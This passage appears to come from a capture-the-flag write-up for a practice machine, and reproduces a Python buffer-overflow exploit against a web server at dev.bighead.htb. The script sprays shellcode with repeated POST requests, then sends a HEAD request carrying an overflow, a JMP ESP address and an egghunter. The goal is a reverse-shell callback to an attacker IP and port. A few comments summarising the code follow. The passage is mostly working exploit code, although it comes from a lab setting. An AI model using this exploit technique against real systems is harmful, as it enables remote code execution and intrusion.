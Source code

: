 ```
 44 
 45 print "[+] Shellcode generated successfully"
 46 os.remove('sc.py')
 47 os.remove('sc.pyc')
 48 
 49 # !mona egg -t
 50 egg = '0xdf'
 51 egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + egg.encode('hex') + "8bfaaf75eaaf75e7ffe7"
 52 
 53 nops = "\x90"*16
 54 spray = egg + egg + nops + shellcode
 55 post = 'POST / HTTP/1.1\r\nHost: dev.bighead.htb\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {}\r\n\r\n'.format(len(spray))
 56 spray_payload = post + spray
 57 
 58 head = "HEAD /"
 59 junk = "1" * (78-len(head))
 60 jmp_esp = "f0125062" #p32(0x625012f0)
 61 host = " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
 62 exec_payload = head + junk + jmp_esp + egghunter + host
 63 
 64 print("[*] Sending payload 5 times")
 65 for i in range(5):
 66     p = remote(target, port)
 67     #print(spray_payload)
 68     p.sendline(spray_payload)
 69     p.recv()
 70     p.close()
 71     sleep(0.1)
 72 
 73 print("[+] Payload sent.\n[*] Sleeping 1 second.")
 74 sleep(1)
 75 
 76 print("[*] Sending overflow + egghunter.")
 77 print("[*] Expect callback in 0-15 minutes to %s:%s." % (cb_ip, cb_port))
 78 p = remote(target, port)
 79 p.sendline(exec_payload)
 80 sleep(1)
 81 p.recv()
 82 p.close()

```

Comments:
- Lines 15-48 are just about generating the shellcode and cleaning up.
- Lines 50-73 set up the upcoming web requests.
- Lines 65-72 send the POST with the shell 5 times
- Lines 77-83 send the HEAD with the egg hunter payload.

In hindsight, I didn’t really use the `pwntools` stuff, and I wish I had just built it with `requests`.
